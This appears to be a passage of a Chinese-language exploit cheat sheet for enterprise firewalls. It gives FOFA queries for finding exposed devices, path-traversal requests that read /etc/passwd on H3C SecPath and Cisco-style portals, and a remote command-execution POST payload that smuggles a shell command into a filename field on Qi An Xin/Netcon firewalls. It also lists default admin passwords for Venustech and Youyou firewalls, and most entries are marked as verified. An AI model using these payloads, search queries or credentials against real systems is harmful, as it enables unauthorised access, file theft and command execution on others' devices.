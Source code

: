 ```
/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

#### H3C SecPath下一代防火墙

FOFA：

```
title="Web user login"
```

##### 任意文件下载 ✅

```
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd
```

```
/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```

#### 奇安信 网康下一代防火墙

FOFA：

```
app="网康科技-下一代防火墙"
```

##### 远程命令执行 ✅

```
POST /directdata/direct/router HTTP/1.1

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_test.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

访问：

```
https://x.x.x.x/test_test.txt
```

#### 启明星辰 天清汉马USG防火墙

##### 默认口令

```
useradmin/venus.user
```

#### 佑友防火墙

##### 默认口令

```
admin/hicomadmin
```
